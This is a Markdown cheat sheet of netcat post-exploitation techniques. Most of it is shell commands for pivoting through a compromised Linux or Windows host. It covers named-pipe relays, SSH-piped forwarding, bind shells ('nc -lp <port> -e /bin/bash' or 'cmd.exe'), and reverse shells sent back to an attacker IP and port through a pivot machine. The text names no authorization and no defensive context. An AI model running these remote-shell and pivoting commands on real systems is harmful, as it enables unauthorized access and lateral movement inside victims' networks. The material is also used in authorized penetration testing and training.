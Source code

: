 # Netcat

Search Tag(s): #post-exploitation #pivoting #port-forwarding #scenarios #linux #windows

## 01 - Pivoting Listening Ports

Let's say you're stuck in a situation that there's no other way to perform pivoting except one of the netcat variants were preinstalled in the compromised Linux system.

```
$ mkfifo /tmp/backpipe

$ mknod /tmp/backpipe p

$ nc -lnvp <pivot_PORT> 0 < /tmp/backpipe | nc <bind_IP> <bind_PORT> 1 > /tmp/backpipe
```

## 02 - Scenarios

### 2.1 - Bind Port

#### 2.1.1 - Server-to-Client Relay

> [!INFO] Netcat Port Forwarding
> You can bind any exposed port to establish connection as long it works. Do not limit yourself to one specific service.

```
$ mknod /tmp/backpipe pipe; nc -lnvp 8443 0 < /tmp/backpipe | nc <webserver_IP> 443 1 > /tmp/backpipe
```

Create a proxy to interact a web server.

```
$ mknod /tmp/backpipe pipe; nc -lp 8080 0 & < /tmp/backpipe | tee -a inflow | nc <webserver_IP> <webserver_PORT> | tee -a outflow & 1 > /tmp/backpipe
```

Another way is to port forward through SSH then pipe it in the `netcat` listener.

```
$ mkfifo /tmp/backpipe pipe

$ while [ 1 ]; do nc -lp 8443 < /tmp/backpipe | ssh <ssh_server_IP> [-p <PORT>] "nc <webserver_IP> 80" | tee /tmp/backpipe; done
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k http://<pivot_IP>:8443
```

### 2.3 - Port Forward Bind Shells

#### 2.3.1 - Server-to-Client Relay

Launch a listener from the compromised system.

```
user@computer:~$ nc -lp <target_PORT> -e /bin/bash

C:\> nc -lp <target_PORT> -e cmd.exe
```

Bind the IP address and port from the compromised machine and redirect it with a listening port to create a pivot point.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc -lp <pivot_PORT> < /tmp/backpipe | nc <target_IP> <target_PORT> > /tmp/backpipe
```

Establish connection to the bind shell.

```
userware@hackware-os:~$ nc -v <pivot_IP> <pivot_PORT>
```

#### 2.3.2 - Server-to-Server Relay

Launch two listening ports one from the attacker side and the compromised system.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc -lp <pivot_PORT_1> < /tmp/backpipe | nc -lp <pivot_PORT_2> > /tmp/backpipe
```

Connect the IP address and port of the server to create a pivot point.

```
user@computer:~$ nc <pivot_IP> <pivot_PORT_2> -e /bin/bash

C:\> nc <pivot_IP> <pivot_PORT_2> -e cmd.exe
```

Establish connection to the bind shell.

```
userware@hackware-os:~$ nc -v <pivot_IP> <pivot_PORT_1>
```

### 2.4 - Port Forward Bind Shells

#### 2.4.1 - Client-to-Server Relay

Launch the reverse shell handler in order to create a pivot point from the server.

```
userware@hackware-os:~$ nc -lnvp <attacker_PORT>
```

Connect the IP address and port of the attacker's machine to port forward a reverse shell handler.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc <attacker_IP> <attacker_PORT> < /tmp/backpipe | nc -lnvp <pivot_PORT> > /tmp/backpipe
```

Connect the server's IP address and port to prompt a reverse shell.

```
user@computer:~$ nc <pivot_IP> <pivot_PORT> -e /bin/bash

C:\> nc <pivot_IP> <pivot_PORT> -e cmd.exe
```

#### 2.4.2 - Client-to-Client Relay

Launch a listener from the compromised machine.

```
user@computer:~$ nc -lp <target_PORT> -e /bin/bash

C:\> nc -lp <target_PORT> -e cmd.exe
```

Prepare a shell handler to establish a reverse connection.

```
userware@hackware-os:~$ nc -lnvp <attacker_PORT>
```

Connect the two IP addresses and ports from the attacker machine and the compromised machine (respectively). You should have a reverse shell prompt.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc <attacker_IP> <attacker_PORT> < /tmp/backpipe | nc <target_IP> <target_PORT> > /tmp/backpipe
```

---
## References

- [Michael Nikitochkin: Netcat with SSH Port Forwarding](https://medium.com/notes-and-tips-in-full-stack-development/netcat-with-ssh-port-forwarding-148177b2e850)
